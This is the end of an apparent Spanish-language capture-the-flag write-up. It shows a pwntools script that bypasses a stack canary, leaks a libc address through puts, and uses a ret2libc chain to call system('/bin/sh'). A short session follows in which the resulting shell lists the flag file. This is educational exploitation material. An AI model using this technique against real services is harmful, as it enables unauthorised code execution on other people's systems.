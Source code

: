 ```python
        b'A' * offset_canary +
        p32(canary) +
        b'A' * 12 +
        p32(exe.plt['puts']) +
        p32(exe.symbols.win) +
        p32(exe.got['puts'])
    )

    io.sendlineafter(b'Name?', payload)
    io.recvlines(2)
    puts_addr = u32(io.recvline()[:4])
    log.success(f'puts address: {hex(puts_addr)}')

    libc.address = puts_addr - libc.symbols['puts']
    binsh_addr = next(libc.search(b'/bin/sh'))

    payload2 = (
        b'B' * offset_canary +
        p32(canary) +
        b'B' * 12 +
        p32(libc.symbols['system']) +
        p32(exe.symbols.win) +
        p32(binsh_addr)
    )

    io.sendlineafter(b'Name?', payload2)
    io.interactive()

if __name__ == "__main__":
    main()

```

Y listo! Tendríamos una shell!

```python
$ ls
flag.txt
vuln
vuln.c
xinet_startup.sh
$  
```

Gracias por leer!
